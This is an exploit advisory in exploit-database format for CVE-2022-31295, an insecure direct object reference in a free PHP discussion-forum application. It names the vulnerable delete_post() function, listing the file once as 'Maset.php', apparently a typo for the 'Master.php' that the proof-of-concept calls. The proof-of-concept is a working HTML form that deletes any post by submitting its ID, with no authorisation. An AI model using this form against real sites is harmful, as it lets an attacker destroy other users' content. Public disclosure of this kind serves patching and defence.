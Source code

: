 # CVE-2022-31295

Online Discussion Forum Site 1.0 - IDOR / Delete any post

#### Exploit Title: Online Discussion Forum Site 1.0 - IDOR / Delete any post
#### Date: 2022-06-13
#### CVE: CVE-2022-31295
#### Exploit Author: Abdulaziz Saad (@b4zb0z)
#### Vendor Homepage: https://www.sourcecodester.com/
#### Software Link: https://www.sourcecodester.com/php/15337/online-discussion-forum-site-phpoop-free-source-code.html
#### Version: 1.0
#### Tested on: LAMP, Ubuntu

-----


[#] Vulnerability Location:
	`function delete_post()` in `/odfs/classes/Maset.php:133`

----

[#] Exploitation:
	```
	 <form action="http://localhost/odfs/classes/Master.php?f=delete_post" method="post" id="manage-user">	
				<input type="text" name="id" value="" placeholder="enter POST ID to delete" required>
                <button type="submit">Delete Post</button>
	</form>
	```
